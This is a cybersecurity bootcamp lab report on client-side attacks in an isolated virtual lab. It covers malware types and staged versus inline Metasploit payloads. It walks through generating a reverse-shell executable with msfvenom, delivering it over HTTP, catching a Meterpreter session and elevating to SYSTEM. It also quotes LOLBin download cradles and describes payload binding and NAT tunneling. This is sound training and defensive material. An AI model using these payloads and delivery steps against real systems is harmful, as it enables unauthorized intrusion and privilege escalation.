

# Module S08: Client-Side Attacks, Payloads & Post-Exploitation Analysis

**Author:** Zahid Ullah  
**Lead Instructor:** Waseem Abbas Khan  
**Program:** PSEB / Atomcamp DEPLOY AI Cybersecurity Bootcamp  
**Academic Module:** Day 4 — Client-Side Attacks, Payload Staging & Career Strategy  
**Deliverables:** [Executive Report (DOCX)](S08_Client_Side_Attacks_Report.docx) | [Executive Report (PDF)](S08_Client_Side_Attacks_Report.pdf) | [Raw Evidence Folder](evidence/)

---

## Executive Summary & Laboratory Scope

Perimeter firewalls, NAT, and inbound traffic filters routinely prevent unsolicited external connections from reaching internal enterprise endpoints. As a consequence, offensive security assessments and advanced threat actors rely on client-side attacks where initial communication originates from within the trusted internal network.

This laboratory research report presents a comprehensive academic and empirical evaluation of client-side operations, covering malware taxonomy, staged vs. inline payload architecture, user interaction dynamics, Windows Access Token mechanics, and post-exploitation privilege elevation via Named Pipe Impersonation.

```
+-----------------------------------------------------------------------------------------+
|                                LABORATORY TOPOLOGY ARCHITECTURE                        |
+-----------------------------------------------------------------------------------------+
|                                                                                         |
|   +------------------------------------+          +----------------------------------+  |
|   |            pfSense 2.6.0           |          |           pfSense 2.6.0          |  |
|   |         Gateway: 10.50.20.1        |          |        Gateway: 10.50.10.1       |  |
|   +-----------------+------------------+          +-----------------+----------------+  |
|                     |                                               |                   |
|                     | VMnet3 (Offensive Zone)                       | VMnet2 (LAN)      |
|                     | Subnet: 10.50.20.0/24                         | Subnet: 10.50.10.0/24
|                     v                                               v                   |
|   +------------------------------------+          +----------------------------------+  |
|   |       Kali Linux (Offensive)       |          |      Windows 10 Pro Target       |  |
|   |          IP: 10.50.20.10           |          |          IP: 10.50.10.21         |  |
|   |   Role: msfvenom / multi/handler   |          |    Role: Client-Side Execution   |  |
|   +------------------------------------+          +----------------------------------+  |
+-----------------------------------------------------------------------------------------+
```

> **Legal & Educational Compliance:** All activities documented herein were conducted strictly within a privately owned, isolated VMware virtual lab network with no external routable Internet connection for offensive subnets. All testing was authorized under Pakistan's Prevention of Electronic Crimes Act (PECA 2016).

---

## Task 1: Comprehensive Malware Taxonomy & Behavioral Analysis

Understanding malware families, propagation vectors, and operational mechanisms is fundamental to engineering effective detection and defense mechanisms.

### 1.1 Malware Classification Matrix

| Malware Family | Primary Spread Vector | Real-World Exemplar | Technical Mechanism of Action | Primary Defensive Countermeasure |
| :--- | :--- | :--- | :--- | :--- |
| **Virus** | Human transfer (USB, shares), infected executable host | CIH (Chernobyl), Stuxnet LNK | Injects malicious code into benign host executables; triggers when host file runs. | Antivirus heuristics, File Integrity Monitoring (FIM), hash whitelisting. |
| **Worm** | Exploitation of unpatched network protocols | WannaCry (MS17-010), Conficker | Self-replicates autonomously across networks without requiring user interaction. | Micro-segmentation, rapid vulnerability patch management, port isolation. |
| **Trojan** | Social engineering, deceptive utility downloads | Emotet, Zeus Banking Trojan | Masquerades as legitimate software while deploying stealth background payloads. | Application Control (WDAC/AppLocker), Code Signing Enforcement, EDR. |
| **Ransomware** | Phishing attachments, compromised RDP | LockBit 3.0, Conti, Ryuk | Encrypts victim data via asymmetric cryptography, demanding ransom for private keys. | Immutable offline backups, Canary file tripwires, least-privilege ACLs. |
| **Spyware** | Bundled installers, malicious browser extensions | Pegasus, FinFisher, DarkComet | Monitors keystrokes, webcam feeds, credentials, and exfiltrates sensitive files silently. | Host-based egress filtering, browser extension governance, certificate pinning. |
| **Adware** | Deceptive installers, bundled freeware | Superfish, Fireball | Hijacks browser search providers, displays forced advertisements, tracks user habits. | Secure Web Gateways (SWG), enterprise ad-blocking policies. |
| **Rootkit** | Kernel-level exploits, signed driver flaws | TDSS / Alureon, Sony BMG DRM | Modifies OS kernel structures (SSDT, IDT) to conceal processes, sockets, and files. | UEFI Secure Boot, Driver Signature Enforcement (DSE), VBS. |
| **Botnet Agent** | Credential spraying, unauthenticated services | Mirai, Necurs, Trickbot | Recruits infected hosts into an orchestrated C2 network for DDoS attacks or spam. | Egress DNS sinkholing, Network Intrusion Detection Systems (NIDS). |
| **Fileless Malware** | In-memory reflection, LOLBins (PowerShell/WMI) | Astaroth, Poweliks, Cobalt Strike | Executes script payloads directly in volatile RAM without writing PE files to disk. | AMSI runtime scanning, PowerShell Constrained Language Mode, memory inspection. |

### 1.2 The Decisive Role of User Interaction in Client-Side Attacks

In modern enterprise architectures, stateful firewalls drop all unsolicited inbound traffic from the outside world. This makes remote perimeter exploitation across WAN boundaries infeasible without prior access. 

User interaction serves as the decisive security bypass:
1. **Firewall Egress Traversal:** Stateful firewalls automatically permit outbound sessions initiated from within the enterprise. When a user runs a payload, the traffic originates internally, bypassing perimeter defenses.
2. **Security Token Inheritance:** The payload executes within the security context of the user. If an administrator launches the file, the process inherits their security token, active Kerberos tickets, and mapped network resources.
3. **Trust & Behavioral Blending:** By initiating execution through a standard user workflow (browser download, email link), the initial execution blends with routine enterprise traffic.

### 1.3 Technical Deep-Dive: Fileless Malware & Living-off-the-Land Binaries (LOLBins)

To evade traditional signature-based antivirus solutions that monitor file writes to disk, modern threats utilize **Living-off-the-Land Binaries (LOLBins)**—legitimate, digitally signed operating system utilities built into Windows:

- **PowerShell (`powershell.exe`):** Employs memory reflection (`[System.Reflection.Assembly]::Load()`) and download cradles (`IEX(New-Object Net.WebClient).DownloadString()`) to execute payloads directly in RAM without leaving on-disk artifacts.
- **Certutil (`certutil.exe`):** A native cryptographic utility frequently abused as a secondary downloader via `-urlcache -split -f` to fetch and decode base64-encoded payloads.
- **MSHTA (`mshta.exe`):** Microsoft HTML Application host capable of executing remote inline VBScript and JScript directly from a URL, bypassing browser security sandboxes.
- **BITSAdmin (`bitsadmin.exe`):** Background Intelligent Transfer Service leveraged to download files asynchronously while surviving reboots and throttling to blend with Windows Update traffic.

**Defensive Detection Strategy:**
Defending against fileless execution requires behavioral logging and runtime memory inspection:
- Enforce **PowerShell Script Block Logging (Event ID 4104)** to capture de-obfuscated script code at execution time.
- Integrate **Antimalware Scan Interface (AMSI)** with endpoint security products to inspect buffer contents before execution.
- Deploy **Windows Defender Application Control (WDAC)** to enforce **Constrained Language Mode (CLM)**, preventing dynamic API calls from untrusted scripts.

---

## Task 2: Payload Engineering, Execution Telemetry & Privilege Analysis

### 2.1 Comparative Analysis: Staged vs. Inline (Non-Staged) Payloads

In Metasploit, payload naming syntax defines its delivery architecture:
- **Staged Payload (Slash notation):** `windows/meterpreter/reverse_tcp`
- **Inline / Non-Staged Payload (Underscore notation):** `windows/meterpreter_reverse_tcp`

| Metric / Attribute | Staged Payload (`windows/meterpreter/reverse_tcp`) | Inline / Non-Staged (`windows/meterpreter_reverse_tcp`) |
| :--- | :--- | :--- |
| **Initial Binary Size** | Ultra-compact (355 bytes raw shellcode; 7,168 bytes PE) | Substantially larger (~200+ KB embedded DLL) |
| **Execution Stages** | 2-stage execution (Stage 0: Stager; Stage 1: Full Meterpreter DLL) | 1-stage self-contained execution |
| **Network Footprint** | Requires second network transmission to download stage | Zero secondary network traffic required |
| **Buffer Exploitation Fit**| Ideal for memory corruption vulnerabilities with strict buffer limits | Requires large exploit buffer spaces |
| **Network Dependency** | Fails if stage download is interrupted or inspected by NIDS | Fully autonomous once executed |

### 2.2 Empirical Lab Execution & Visual Evidence

#### Step 1: Pre-requisite Network Routing Verification
Network reachability between the offensive zone (10.50.20.0/24) and the enterprise LAN (10.50.10.0/24) was verified across the pfSense 2.6.0 gateway. While Kali's inbound ICMP pings to Windows 10 were dropped by Windows Defender Firewall, outbound ping connectivity from Windows 10 to Kali succeeded with `<1 ms` latency and `TTL=63` (recorded in `evidence/01_network_verification.txt`).

#### Step 2: Staged Payload Generation via `msfvenom`
The staged reverse TCP payload was generated on Kali targeting the x86 architecture:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.20.10 LPORT=4433 -f exe -o win.exe
```
*Output Metrics:* Payload size = 355 bytes; Compiled PE container = 7,168 bytes (saved in `evidence/02_msfvenom_payload_gen.txt`).

#### Step 3: Payload Delivery via Python HTTP Server
A lightweight web server was hosted on Kali port 80 and accessed from the Windows 10 endpoint via Microsoft Edge:


*Figure 2.1: Web delivery interface hosted on Kali HTTP server accessed from the Windows 10 target browser.*

#### Step 4: Listener Deployment & File Acquisition
The Metasploit `multi/handler` was configured and started on `10.50.20.10:4433`:


*Figure 2.2: Metasploit multi/handler listening on 10.50.20.10:4433 awaiting client-side callback.*

The payload was successfully downloaded to the Windows 10 user Downloads folder:


*Figure 2.3: Windows 10 Downloads directory confirming local presence of win.exe (7.00 KB).*

#### Step 5: Target Execution & Process Telemetry
Execution on the target machine spawned the 32-bit `win.exe` process, visible in Task Manager consuming 1.0 MB of memory:


*Figure 2.4: Windows 10 Task Manager confirming active execution of win (32-bit) with live resource allocation.*

#### Step 6: Session Establishment & Stage Transfer
The stager connected back to `10.50.20.10:4433`. Metasploit transmitted the 203,451-byte reflective DLL stage and opened Meterpreter Session 1:


*Figure 2.5: Metasploit console logging 203,451-byte stage transfer and successful Meterpreter session initialization.*

#### Step 7: Post-Exploitation Triage & Privilege Elevation
Initial triage verified the session was running under domain administrative user `SEC\Administrator`. Executing `getsystem` successfully escalated the session to `NT AUTHORITY\SYSTEM` via Technique 1:


*Figure 2.6: Terminal verification of user identity (SEC\Administrator) and elevation to NT AUTHORITY\SYSTEM via Named Pipe Impersonation.*

### 2.3 Technical Analysis: Windows Access Tokens & Named Pipe Impersonation

Understanding privilege escalation requires examining the Windows Security Subsystem:
1. **Access Tokens & Mandatory Integrity Control (MIC):**
   Every Windows process possesses an Access Token defining its Security Identifiers (SIDs), logon session, and user rights. Integrity levels range from Low (sandboxed processes) to Medium (standard users), High (elevated administrators), and System (OS kernel and services).
2. **User Account Control (UAC) Token Filtering:**
   Under standard UAC behavior, administrative users log in with a split token: a restricted Medium-integrity token and an unrestricted High-integrity token. Standard applications execute with the filtered token. Attempts to perform administrative operations without elevation result in an `Access is denied` condition.
3. **Mechanics of Named Pipe Impersonation (`getsystem` Technique 1):**
   In our verified lab environment, the session operated within an elevated administrative context (`SEC\Administrator`), granting it `SeImpersonatePrivilege`. Meterpreter elevated to `SYSTEM` using the following sequence:
   - **Step A:** Meterpreter creates a local Windows Named Pipe (`\\.\pipe\...`).
   - **Step B:** It registers and launches a transient Windows service configured to execute under `NT AUTHORITY\SYSTEM`.
   - **Step C:** The SYSTEM service connects to the listening named pipe.
   - **Step D:** Meterpreter invokes the Windows API `ImpersonateNamedPipeClient()`. This copies the security token of the connecting SYSTEM client to the Meterpreter thread, instantly achieving full `NT AUTHORITY\SYSTEM` execution context.

### 2.4 Delivery Mechanics & Legal Framework

#### A. WinRAR SFX File Binding
Adversaries frequently package malicious payloads with legitimate utilities (e.g., Rufus, document viewers) using WinRAR Self-Extracting (SFX) archives. The SFX script silently extracts both files to `%TEMP%`. It launches the legitimate application in the foreground to prevent user suspicion while executing the payload invisibly in the background.

#### B. Wide Area Network (WAN) Tunneling (LocalToNet / Ngrok)
When assessing systems across external networks without public static IPs or port forwarding, reverse TCP payloads require an ingress tunnel. Tunneling tools establish an encrypted multiplexed connection to a public cloud edge relay. The payload connects to the public relay address, which forwards the traffic to the local Metasploit listener bound to `0.0.0.0`, bypassing carrier-grade NAT (CGNAT).

#### C. Legal & Scope Governance (Pakistan PECA 2016)
Security testing is strictly regulated under the **Prevention of Electronic Crimes Act (PECA 2016)**:
- **Section 3:** Unauthorized access to an information system or data (punishable by imprisonment and substantial fines).
- **Section 4:** Unauthorized copying or transmission of critical data.
- **Section 5:** Interference with information systems or data (deploying unauthorized software).

*Professional Compliance:* Legitimate cybersecurity assessments require written authorization, an explicit Statement of Work (SoW), well-defined Rules of Engagement (RoE), and strict adherence to designated testing boundaries.

---

## Task 3: Professional Career Statement & 90-Day Execution Roadmap

### 3.1 Career Vision & Target Specialism
As a graduate of the PSEB / Atomcamp DEPLOY AI Cybersecurity Bootcamp, my target role is a **Security Operations Center (SOC) Analyst / Junior Penetration Tester**. By integrating offensive security concepts (payload mechanics, token manipulation) with defensive engineering (telemetry analysis, detection rules), I aim to contribute to enterprise security operations.

### 3.2 Industry Certification Pathway
- **Months 1–2:** **CompTIA Security+** — Validate core knowledge of security controls, threat analysis, network architecture, and compliance.
- **Months 3–4:** **Blue Team Level 1 (BTL1)** — Develop practical skills in SIEM analysis, memory forensics, phishing analysis, and network packet capture.
- **Months 5–6:** **Practical Network Penetration Tester (PNPT)** — Demonstrate end-to-end network assessment, Active Directory exploitation, OSINT, and professional reporting.

### 3.3 Concrete 90-Day GitHub Portfolio Projects

```
+------------------------------------------------------------------------------------------+
|                        90-DAY OPEN-SOURCE PORTFOLIO ROADMAP                              |
+------------------------------------------------------------------------------------------+
|  Days 1 - 30   | Project 1: Enterprise Multi-Subnet Virtual Cyber Range                  |
|                | - Document complete pfSense 2.6.0 network routing and VLAN topology.    |
|                | - Publish automated deployment scripts for AD, Kali, and Wazuh EDR.     |
+----------------+-------------------------------------------------------------------------+
|  Days 31 - 60  | Project 2: LOLBins Threat Hunting & Sigma Detection Repository          |
|                | - Develop curated Sigma & Sysmon rules targeting Certutil and MSHTA.    |
|                | - Include sample event logs, PCAPs, and detection validation guides.    |
+----------------+-------------------------------------------------------------------------+
|  Days 61 - 90  | Project 3: Automated Windows Endpoint CIS Benchmark Hardening Script   |
|                | - Create a PowerShell tool to audit UAC levels and Script Block Logging.|
|                | - Automatically remediate high-risk protocols (LLMNR, NetBIOS).         |
+------------------------------------------------------------------------------------------+
```

---

## Evidence Repository Index

All raw evidence files, terminal logs, and visual captures are archived in the [`evidence/`](evidence/) directory:

| Artifact Name | Type | Description |
| :--- | :--- | :--- |
| `01_network_verification.txt` | Raw Text Log | Bidirectional ping verification across pfSense between Kali and Windows 10. |
| `02_msfvenom_payload_gen.txt` | Raw Text Log | Payload compilation parameters and stager sizing metrics (355 bytes). |
| `02_payload_delivery_http.png` | Visual Capture | Target web browser downloading payload from Kali HTTP delivery server. |
| `03_msf_handler_listen.png / .txt` | Visual / Log | Metasploit multi/handler listener configuration on port 4433. |
| `04_payload_downloaded_windows.png` | Visual Capture | Target filesystem verification of win.exe in Windows Downloads folder. |
| `05_task_manager_execution.png` | Visual Capture | Windows Task Manager confirming active execution of win (32-bit). |
| `06_meterpreter_session_established.png`| Visual Capture | Metasploit console logging 203,451-byte stage delivery and session start. |
| `07_privilege_elevation_system.png / .txt` | Visual / Log | Verification of SEC\Administrator session and elevation to NT AUTHORITY\SYSTEM. |

---

*Report authored by Zahid Ullah for the PSEB / Atomcamp DEPLOY AI Cybersecurity Bootcamp (November 2026).*
